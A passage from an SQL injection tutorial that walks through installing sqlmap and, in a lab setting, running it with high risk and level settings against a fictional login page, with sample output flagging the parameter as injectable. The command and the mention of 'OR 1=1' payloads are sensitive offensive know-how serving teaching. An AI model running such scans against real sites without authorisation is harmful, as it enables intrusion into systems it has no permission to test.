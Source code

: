 ### **Prerequisites**

1. **Install sqlmap**:
    
    - Requires Python 3.7+.
        
    
    bash
    
    Copy
    
    pip install sqlmap
    
2. **Lab Setup**:
    
    - Use a vulnerable web app like [DVWA (Damn Vulnerable Web App)](https://github.com/digininja/DVWA) or [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/).
        
    - For this guide, we’ll use a fictional website: **`http://vuln-shop.com`** with a login page and product search feature.
        

---

## **Level 1: Basic Detection (Newbie)**

### Scenario: Testing a Login Page for SQLi

The fictional website `vuln-shop.com` has a login page at `http://vuln-shop.com/login.php`. Let’s test it.

#### Step 1: Basic Vulnerability Detection

Run this command to check if the `username` parameter is vulnerable:

bash

Copy

sqlmap -u "http://vuln-shop.com/login.php?username=test&password=test" --risk=3 --level=5

- `--risk=3`: Enables riskier tests (e.g., `OR 1=1` payloads).
    
- `--level=5`: Tests all injection points (headers, cookies, etc.).
    

#### Expected Output:

sql

Copy

[INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[INFO] checking if the injection point on parameter 'username' is a boolean-based blind
...
[CRITICAL] parameter 'username' is vulnerable to SQL injection.

#### Key Learnings:

- How to test parameters for vulnerabilities.
    